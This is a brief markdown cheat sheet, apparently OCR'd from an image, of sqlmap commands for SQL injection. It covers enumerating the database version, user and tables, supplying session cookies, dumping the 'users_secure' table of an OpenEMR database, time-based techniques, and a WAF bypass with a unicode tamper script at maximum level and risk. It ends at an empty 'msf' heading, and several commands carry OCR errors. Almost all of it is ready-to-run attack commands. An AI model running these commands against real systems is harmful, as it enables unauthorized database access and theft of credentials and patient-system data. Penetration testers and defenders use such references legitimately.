 ```text
1. Login and note cookie value (cookie1=val1, cookie2=val2)
sqlmap.py -u "http:// url "--data="id=l&str=val" -p "id"
--cookie="cookiel=vall;cookie2=val2"
```

### SQL injection and getting the database version and its name and user

```text
./sqlmap.py -u "http://url" --data="id=1&str=val" -p "id" -b --current-db
--current-user
```

### SQL injection and get database tables db=testdb

```text
sqlmap.py -u "http://url" --data="id=1&str=val" -p "id" --tables -D
"testdb"
```

### SQL injection and receiving table columns

```text
sqlmap.py -u "http://url" --data="id=l&str=val" -p "id" --columns -T
"users"
```

### Read from file

```text
sqlmap.py -r req.txt
```

### Get the records of the specified table from the specified database

```text
sqlmap -r req -D openemr -T users_secure --dump
```

### Using the delay technique

```text
sqlmap -r req --technique=T
```
[more info](https://github.com/sqlmapproject/sqlmap/wiki/Techniques)

### Bypass waf with unicode

```text
sqlmap -r json --tamper=charunicodeescape --dump --level=5 --risk=3 --dbs --columns
```

## msf
